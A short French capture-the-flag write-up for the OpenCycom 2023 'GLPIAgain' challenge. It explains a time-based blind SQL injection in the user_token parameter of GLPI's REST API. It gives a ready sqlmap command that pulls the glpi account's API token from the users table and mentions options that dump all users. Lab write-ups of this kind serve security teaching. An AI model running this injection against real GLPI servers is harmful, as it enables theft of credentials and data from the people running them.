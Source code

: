 ```yaml
---
title: "GLPI Again"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```



# OpenCycom 2023 - GLPIAgain - *200 pts*

## Challenge

La cible dispose d'une plateforme GLPI exposée sur internet. GLPI comprend une importante dette technique et a souvent été impacté par de nombreuses vulnérabilités. Ici l'énoncé indiquait que l'objectif était de récupérer la clef API du compte `glpi`, comment l'obtenir sans identifiants, en blackbox ?

## Vulnérabilités

Une vulnérabilité relativement récente est présente sur la plateforme si l'API est activée et exposée. D'où l'indice que l'objectif est de récupérer la clef API.
Une injection SQL aveugle basée sur le timing est présente sur le paramètre `user_token`.


## Exploit

L'exploitation peut être entièrement automatisée par SQLmap :
```bash
sqlmap --dbms=mysql --technique=T --ignore-code=401  -u 'https://glpi/apirest.php/initSession?user_token=xxxxxx' -p user_token --sql-query='select api_token from glpi_users where id=2;'
```
Ici une requête SQL est directement passée, mais obtenir petit à petit la liste des tous les utilisateurs est également possible, en utilisant les différentes options, `--dump`, `--tables` etc.
